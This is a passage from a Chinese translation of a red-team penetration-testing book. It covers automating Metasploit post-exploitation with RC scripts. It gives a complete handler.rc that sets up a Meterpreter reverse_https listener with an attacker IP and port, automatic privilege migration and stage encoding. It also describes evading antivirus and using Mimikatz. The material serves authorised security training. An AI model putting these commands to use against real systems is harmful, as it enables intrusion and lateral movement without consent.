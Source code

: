 # 第8章 特勤组——破解、漏洞利用和技巧

> 译者：[@Snowming](https://github.com/Snowming04)
> 
> 校对者：[@鶇](http://wp.blkstone.me)、@哈姆太郎、@匿名jack

![](img/8-1.png)

本章重点介绍了一些我个人发现的对红队和渗透测试都有用的不同资源。这些资源可能不会在每个模拟入侵行动中都用到，但对于特定场景或在某一次的案例中可能非常有用。

## 自动化
随着基于[启发式](https://baike.baidu.com/item/%E5%90%AF%E5%8F%91%E5%BC%8F/7365819)（heuristic-based）的端点保护变得越来越完善，我们的攻击需要变得更加迅速。我们通常可以编写恶意软件来躲避杀毒软件和绕过初始检测，但是一旦我们开始在内存中调用 `Mimikatz` 或者进行横向移动到其他主机，我们就会开始触发报警。为了解决这个问题，我总是告诉红队，我们的初步试探可以故意让蓝队捕获。因为通常情况下，蓝队在发现我们使用的默认/基础恶意软件（或者仅仅进行了轻微的混淆）时就会将此视为胜利，但我们的真正目的是了解他们的环境。这是通过我们的初始 payload 在受害者的机器上自动运行多个侦察脚本来实现的。在下一节中，我们将介绍一些可以使我们的一些攻击自动化的快速自动运行脚本。

### 使用 RC 脚本自动化运行 Metasploit
对于 Metasploit，我们可以使用以下方法高效地运行我们的后渗透利用脚本：
* 搜索 Metasploit 中所有的后渗透利用模块：
* msfconsole
* show post

从显示的结果中，选择你想要包含的所有模块，以便在接收到一个 Meterpreter Shell 时自动执行。在这个案例中，我们将为我们的攻击添加一个 [privilege	migrate](http://bit.ly/2vn1wFB) 后渗透模块。要配置 Meterpreter Shell 以便让它在受攻击主机的初始连接上运行此 payload，我们需要指定一个 `AutoRunScript` 参数。你可以根据需要添加尽可能多的 `AutoRunScripts` 参数来转储（dump）有关系统和网络的信息，然后横向移动,甚至更多！

创建处理程序 (Handler) 和 AutoRunScript：
* 创建处理程序文件
    * gedit handler.rc
* 配置处理程序和自动运行脚本
    * use multi/handler
    * set payload windows/meterpreter/reverse_https 
    * set LHOST 10.100.100.9
    * set LPORT 443
    * **set AutoRunScript post/windows/manage/priv_migrate**
    * set ExitOnSession false
    * set EnableStageEncoding true 
    * exploit -j
* 启动处理程序
    * msfconsole -r handler.rc
